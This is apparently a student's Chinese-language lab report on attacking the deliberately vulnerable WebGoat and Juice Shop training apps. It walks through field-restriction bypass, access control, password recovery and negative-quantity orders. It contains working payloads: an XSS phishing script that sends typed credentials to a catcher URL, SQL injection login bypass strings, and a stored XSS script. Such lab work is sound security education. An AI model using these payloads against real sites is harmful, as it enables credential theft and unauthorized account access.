


# chapter0x03 Web应用漏洞攻防

## 实验目的

- 了解常见 Web 漏洞训练平台；
- 了解 常见 Web 漏洞的基本原理；
- 掌握 OWASP Top 10 及常见 Web 高危漏洞的漏洞检测、漏洞利用和漏洞修复方法；

## 实验环境

- WebGoat
- Juice Shop

## 实验要求

- 每个实验环境完成不少于 5 种不同漏洞类型的漏洞利用练习

## 实验过程

## （一）webgoat环境下的漏洞攻防

### 搭建WebGoat环境

- 安装docker-compose
  - 遇到问题显示无法定位软件包

    

    解决办法：尝试`apt-get update`没有用；准备通过添加镜像源解决时，打开配置文件sources.list，发现里面连官方源都没有，于是我把官方源放进sources.list配置文件，成功解决问题

    ```
    # 官方源
    deb-src http://http.kali.org/kali/ kali-rolling main non-free contrib
    deb http://mirrors.ustc.edu.cn/kali kali-rolling main non-free contrib
    deb http://http.kali.org/kali kali-rolling main non-free contrib
    ```

    

  - 安装docker-compose

    

- 查看docker镜像，确认成功安装

  

- 克隆老师的仓库到本地

  

- 使用 `docker-compose` 一键搭建「漏洞练习环境」

  

- 输入`docker ps`查看镜像信息

  - WebGoat-7.1 127.0.0.1:**8087**
  - WebGoat-8.0 127.0.0.1:**8088**

  

- 访问webgoat

  - 访问WebGoat-7.1 127.0.0.1:8087/WebGoat

    

  - 访问WebGoat-8.0 127.0.0.1:8088/WebGoat

    - 注册ID：YYZ123 PW:password

    

### 【漏洞类型①：未验证的用户输入】

- WebGoat-8.0环境做实验：Bypass HTML Field Restrictions & Exploit Hidden Fields

  

  - 遇到问题：虚拟机突然黑屏，强制关机重启后，输入`docker-compose up -d`会提示ERROR

    

    解决办法：输入`service restart docker`重启服务，解决问题

- Bypass HTML Field Restrictions 绕过前端的限制

  - 配置浏览器代理设置，设置为手动代理：127.0.0.1:8080

    因为是本机实验，注意删除 No proxy for 中的配置信息

    

  - 检查burpsuitede的配置文件

    

  - 点击burpsuite的intercept is on开始捕获流量

    

  - 在WebGoat-8.0提交表单

    

  - burpsuit捕获到提交请求

    

  - 在不修改情况下，不能提交成功

    

  - 通过页面源代码查看每个表项的限制
    - Option下拉菜单限制是1和2
    - Option单选框限制是1和2
    - checkbox限制是on和off
    - 输入框限制是内容长度不能大于5个字符

  - 修改表单项的内容，突破html中的表单填写限制，forward

    

  - 提交成功

    

### 【漏洞类型②：跨站点脚本(XSS)】

- PhishingTitle WebGoat 7.0.1

  

- 注入XSS

  ```xml
  </form><script>function hack(){ XSSImage=new Image; XSSImage.src="http://localhost:8080/WebGoat/catcher?PROPERTY=yes&user=" + document.phish.user.value + "&password=" + document.phish.pass.value + "";alert("Had this been a real attack... Your credentials were just stolen. User Name = " + document.phish.user.value + " Password = " + document.phish.pass.value);} </script><form name="phish"><br><br><HR><H3>This feature requires account login:</H2><br><br>Enter Username:<br><input type="text" name="user"><br>Enter Password:<br><input type="password" name = "pass"><br><input type="submit" name="login" value="login" onclick="hack()"></form><br><br><HR>
  ```

- 显示界面

  

- 实验成功

  

### 【漏洞类型③：脆弱的访问控制】

- Using an Access Control Matrix  WebGoat7

- 在基于角色的访问控制策略中，每个角色都代表了一个访问权限的集合。一个用户可以分配一到多个角色。基于角色的访问控制策略通常由两部分组成：角色许可管理与角色分配。基于角色的访问控制策略受到破坏就可能允许用户进行访问本不属于他的角色，或者以某种方式提升未经授权角色的特权。

- 依次选择Moe、Larry、Curly、Shemp尝试访问Account Manager资源，发现Larry具有访问权限。

  

### 【漏洞类型④：AJAX安全】

- DOM Injiction WebGoat7

- 实验对象是一个接受激活密钥后允许你访问的系统，实验目标是尝试将激活按钮变得可以点击。

- 直接修改页面代码激活按钮，Chrome浏览器下F12查看网页源代码，找到按钮对应的代码

  ```
  <input disabled="" id="SUBMIT" value="Activate!" name="SUBMIT" type="SUBMIT">
  ```

  

- 删除disabled即可激活按钮

### 【漏洞类型⑤：认证缺陷】

- Forgot Password WebGoat7

- Web应用经常给用户提供取回密码的功能，但是许多应用的实现策略实现的很差，用于验证用户的信息非常简单。

- 本次实验已知自己的账户名是webgoat，最喜欢的颜色是红色，尝试取回admin用户的密码。

- 在取回密码界面的输入框中输入admin，进入验证界面，验证问题同样是询问最喜欢的颜色，经过多次尝试，发现用户admin最喜欢的颜色是绿色(green)，最终“取回”密码。

  

## （二）webgoat环境下的漏洞攻防

### Juice Shop环境搭建

- 输入`docker-compose up -d`安装Juice Shop环境

  

- 查看juice shop,端口为3000

  

### 【漏洞类型①： Injection】

- Login Admin 

- 抓包看到提交的数据为{"email":"\\" or 1=1--","password":"123"}，结合sql语句 SELECT * FROM Users WHERE email = '1'' AND password = '202cb962ac59075b964b07152d234b70，payload为 email":"' or 1=1 --","password":"123"即可使用管理员登陆。原因是管理员的数据在select结果处于第一位。


- 登入成功

  

### 【漏洞类型②：Broken Access Control】

- View Basket

  > Access someone else’s basket. 访问他人的购物车

- 修改会话存储的bid，访问购物车即可

  

### 【漏洞类型③：Improper input validatior】

- Payback Time

  > Place an order that makes you rich. 下一个令你富有的订单。

- 添加购物车的时候用BurpSuite抓包，修改POST数据中的quantity为负数，加车后结账金额为负数。

  

- 成功

  

### 【漏洞类型④：Broken Authentic】

- Reset Jim’s Password

  > Reset Jim’s password via the Forgot Password mechanism with the original answer to his security question. 

- 首先通过登陆的SQL注入`{"email":"' or 1=1 limit 1,1 --","password":"123"}`得到email*jim@juice-sh.op*,安全问题是

  >  Your eldest siblings middle name?

- 通过社工，Wiki上搜https://en.wikipedia.org/wiki/James_T._Kirk，上面写着Jim有个Brother叫 *George Samuel Kirk*，所以安全问题的答案就是 *Samuel*

  

### 【漏洞类型⑤：XSS】

> 需要成功生成一个存储型的`<script>alert(“XSS″)</script>`XSS攻击

- 提交注册表单，通过Burp suite抓包，修改email内容为`<script>alert(\"XSS\")</script>`

  

- 登入管理账号，进入后台查看结果

  

- 实验成功

## 参考资料

- [kali linux Burp Suite极简使用教程](https://www.cnblogs.com/thechosenone95/p/10623462.html)

- [Juice Shop教程]( https://bkimminich.gitbooks.io/pwning-owasp-juice-shop/content/)

